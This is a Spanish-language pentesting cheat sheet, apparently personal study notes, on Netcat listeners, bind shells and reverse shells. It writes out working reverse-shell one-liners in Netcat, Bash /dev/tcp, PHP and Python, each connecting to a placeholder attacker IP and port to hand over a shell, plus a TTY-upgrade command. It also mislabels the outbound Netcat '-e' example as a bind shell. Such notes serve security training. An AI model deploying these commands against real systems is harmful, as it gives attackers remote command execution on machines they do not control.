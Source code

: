 ## Netcat como herramienta de escucha (Command & Scripting Interpreter)

- Para entender como funciona el **tool Netcat**

- Cheatsheet del **tool Netcat**:
![](Pasted%20image%2020230531232009.png)

- Para poner Netcat en modo escucha: `nc -lvp <port>`
- Para enviar una peticion a cualquier puerto: `telnet <ip> <port>`
![](Pasted%20image%2020230531231745.png)

## Bind shell con Netcat (Command & Scripting Interpreter)

- Para crear un bind shell en un sistema remoto y ejecutar comandos en él

- Para obtener un bind shell en la máquina remota:
	- Primero habilitaremos un listener en la máquina atacante: `nc -lvp <port>`
	- Luego escribiremos el siguiente comando en la máquina objetivo: `nc <ip_attacker> <port> -e /bin/bash` ![](Pasted%20image%2020230531232648.png)
	- Si ejecutamos: `python3 -c "import pty;pty.spawn('/bin/bash')"`, **obtenemos una shell completamente funcional**

## Reverse shell con Netcat (Command & Scripting Interpreter)

- Para crear una reverse shell en un sistema remoto y ejecutar comandos en él

- Para crear una reverse shell:
	- Primero habilitaremos un listener en la máquina atacante: `nc -lvp <port>`
	- Luego escribiremos el siguiente comando en la máquina objetivo: `bash -i >& /dev/tcp/<ip_attacker>/<port> 0>&1` ![](Pasted%20image%2020230531233246.png)

## Reverse shell sin Netcat (Command & Scripting Interpreter)

- Puedes crear un reverse shell en un sistema remoto y ejecutar comandos en el mismo netcat aunque netcat no esté disponible en el sistema remoto

- Para crear un reverse shell con **php**:
	- Primero habilitaremos un listener en la máquina atacante: `nc -lvp <port>`
	- Luego escribiremos el siguiente comando en la máquina objetivo: `php -r '$sock=fsockopen("<ip_attacker>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'` ![](Pasted%20image%2020230531234255.png)
- Para crear un reverse shell con python:
	- Primero habilitaremos un listener en la máquina atacante: `nc -lvp <port>`
	- Luego escribiremos el siguiente comando en la máquina objetivo: `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip_attacker>",<port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`


## Searchploit (Exploitation for Client Execution)
